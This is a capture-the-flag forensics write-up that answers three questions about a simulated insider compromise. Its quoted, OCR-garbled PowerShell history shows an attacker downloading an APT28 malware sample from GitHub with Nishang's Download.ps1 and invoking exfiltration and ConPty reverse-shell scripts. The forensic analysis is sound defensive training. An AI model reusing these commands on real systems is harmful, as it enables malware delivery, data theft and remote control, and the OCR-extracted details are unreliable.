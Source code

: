 # who-done-it
> We might have an insider threat in our company. Help us to clarify this unconfortable situation.

## About the Challenge
We got a zip file called `who-was-it.zip` and the file contains some useful information about the victim pc such as PowerShell History / Device Information

## How to Solve?
There are 3 questions that we need to answer:

1. Identify the hostname of the compromised machine.

We can get the hostname information at `/SystemInfo/output.txt` file


[Image extracted text: SystemInfo
= output txt
1
2
Host
Name:
DESKTOP_VZVNNIV
3
0S Name:
Microsoft Windows
10 Home
4
0S Version:
10.0.19043
N/A Build 19043
5
0S Manufacturer:
Microsoft Corporation
6
0S Configuration:
Standalone Workstation
7
0S Build Type:
Multiprocessor Free
8
Registered
Owner:
plantatie- ro@gmail.com
9
Registered Organization:
10
Product
ID:
00326-10000-00000-AA353
11
Original Install Date:
11/8/2021,
2:44:39
AM
U
U
Fn
S
n]


2. Provide the name of the malware binary downloaded by the attacker on the compromised account.

If we check the PowerShell History command (Especially in `plant` user). In line 156-157, the attacker tried to download a file called `ZekaAPT28.bin`


[Image extracted text: 105
cu
Jdeskeup {isllalg-lllasteri
154
C: |UsersIplant | OneDrivel Desktopinishang-masterlUtility Download. psl
155
Download
156
Download
~u
https / github_cOm/mstfknn/malware-sample-Libraryl rawlmaster/APT28%20FancyBear/ZekaAPT28_bin
download. txt
157
Download
~u
https
[github_com/mstfknn/malware_sample_librarylrawlmaster
APT28820FancyBear /ZekaAPT28_bin
~f
ZekaAPT28.bin
download.txt
158
cat
Idown Load. txt
159
C:|UsersIplant | OneDrivelDesktopinishang-masterlUtilitylAdd-Exfiltration.psl
160
IActiveDirectory|
161
Add-Exfiltration
162
C ulcerslnlantl Onenrivel Desktonlnishano_masteri Ghellcl Tnvoke_ConPtvshe
Dct]


3. Which is the suspicious scheduled task created by the attacker on the system?

We can get the suspicious scheduled task at /scheduled_task/Windows/System32/Tasks file


[Image extracted text: Avast Software
Microsoft
= Avast Emergency Update
= CCleaner Update
 CCleanerSkipUAC
plant
= connect_to_server
GoogleUpdateTaskMachineCore
=
GoogleUpdateTaskMachineUA
= MicrosoftEdgeUpdateTaskMachineCore
= MicrosoftEdgeUpdateTaskMachineUA
= OneDrive Reporting Task-S-1-5-21-1786831910
OneDrive Standalone Update Task-S-1-5-21-178
= OneDrive Standalone Update Task-S-1-5-21-178]


```
Q1: DESKTOP-V2VNNIV
Q2: ZekaAPT28.bin
Q3: connect_to_server
```